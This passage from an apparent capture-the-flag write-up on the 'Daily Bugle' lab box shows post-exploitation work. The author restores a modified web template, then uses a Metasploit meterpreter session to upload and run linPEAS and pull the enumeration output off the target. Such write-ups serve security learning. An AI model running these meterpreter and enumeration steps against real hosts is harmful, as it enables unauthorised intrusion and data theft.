 Once I had a stable shell established, I killed the original shell and quickly replaced the exploited template with its original contents before verifying that I was now able to see the original, unmodified index page.

![daily bugle restored index](/images/daily_bugle_http_replaced_landing_page.png)

### Local enumeration

With my new local shell, I reached for linPEAS to run a quick local enumeration of the host.

```bash
msf5 post(multi/manage/shell_to_meterpreter) > sessions 2
[*] Starting interaction with 2...

meterpreter > getpid 
Current pid: 4344
meterpreter > sysinfo 
Computer     : 10.10.162.223
OS           : CentOS 7.7.1908 (Linux 3.10.0-1062.el7.x86_64)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > cd /tmp
meterpreter > upload /root/Desktop/PEASS/linPEAS/linpeas.sh
[*] uploading  : /root/Desktop/PEASS/linPEAS/linpeas.sh -> linpeas.sh
[*] Uploaded -1.00 B of 217.36 KiB (-0.0%): /root/Desktop/PEASS/linPEAS/linpeas.sh -> linpeas.sh
[*] uploaded   : /root/Desktop/PEASS/linPEAS/linpeas.sh -> linpeas.sh
meterpreter > shell
Process 4353 created.
Channel 2 created.
./linpeas.sh > 10.10.162.223_enum.txt
which: no fping in (/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/system/bin:/system/sbin:/system/xbin)

meterpreter > download 10.10.162.223_enum.txt /root/ctf/
[*] Downloading: 10.10.162.223_enum.txt -> /root/ctf//10.10.162.223_enum.txt
[*] Downloaded 429.28 KiB of 429.28 KiB (100.0%): 10.10.162.223_enum.txt -> /root/ctf//10.10.162.223_enum.txt
[*] download   : 10.10.162.223_enum.txt -> /root/ctf//10.10.162.223_enum.txt
```

